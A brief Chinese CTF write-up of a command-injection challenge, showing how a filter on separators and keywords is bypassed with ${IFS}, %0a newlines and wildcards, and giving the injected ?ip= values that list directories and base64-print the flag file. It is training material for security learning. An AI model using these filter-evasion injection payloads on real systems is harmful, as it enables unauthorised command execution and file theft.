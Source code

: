 代码审计发现过滤了`/、|、&、;、cat、flag、ctfhub`

```
空格可以用${IFS}
cat可以用more
flag可以用正则f***
ctfhub应该用不到
查了一下，在linux下，命令分隔符除了;还有%0a
有了；就可以不用运算符了
```

这里就可以构造命令用来访问文件了，输入命令要在url后面输入因为在下面输入会进行url编码

```
127.0.0.1%0als
```

![image-20240122003442131](E:\学习资料\网安\笔记\笔记截图\image-20240122003442131.png)

接着查看flag_is_here文件夹里面的文件

```
?ip=127.0.0.1%0acd${IFS}f***_is_here%0als
```

![image-20240122004402284](E:\学习资料\网安\笔记\笔记截图\image-20240122004402284.png)

发现flag文件，查看文件内容

```
?ip=127.0.0.1%0acd${IFS}f***_is_here%0abase64${IFS}f***_31654262427710.php
```

![image-20240122004850310](E:\学习资料\网安\笔记\笔记截图\image-20240122004850310.png)